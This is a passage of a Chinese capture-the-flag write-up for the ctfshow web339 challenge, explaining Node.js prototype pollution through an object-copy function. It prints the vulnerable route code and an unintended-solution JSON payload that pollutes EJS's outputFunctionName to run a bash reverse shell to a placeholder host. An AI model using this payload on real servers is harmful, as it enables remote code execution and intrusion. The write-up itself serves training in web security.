 因为原型污染，`secret`对象直接继承了Object.prototype，所以就导致了`secert.ctfshow==='36dboy'`

###  web339

login.js也变了

```js
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  var flag='flag_here';
  var secert = {};
  var sess = req.session;
  let user = {};
  utils.copy(user,req.body);
  if(secert.ctfshow===flag){
    res.end(flag);
  }else{
    return res.json({ret_code: 2, ret_msg: '登录失败'+JSON.stringify(user)});  
  }
});
```

这儿多了个api.js

```js
var express = require('express');
var router = express.Router();
var utils = require('../utils/common');


// var query = "return global.process.mainModule.constructor._load('child_process').execSync('whoami');";
/* GET home page.  */
router.post('/', require('body-parser').json(),function(req, res, next) {
  res.type('html');
  res.render('api', { query: Function(query)(query)});

});
module.exports = router;
```

我们可以通过login.js的copy实现原型链污染，覆盖query的值，`let user = {}`的原型对象是`Object.prototype`

在api.js中的Function的query变量是没有的，就需要去原型链找，`Function.prototype ---> Object.prototype `,就造成原型链污染了。



非预期的payload、

ejs rce具体的来看下大佬写的文章`https://xz.aliyun.com/t/7184`

```
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/4567 0>&1\"');var __tmp2"}}
```
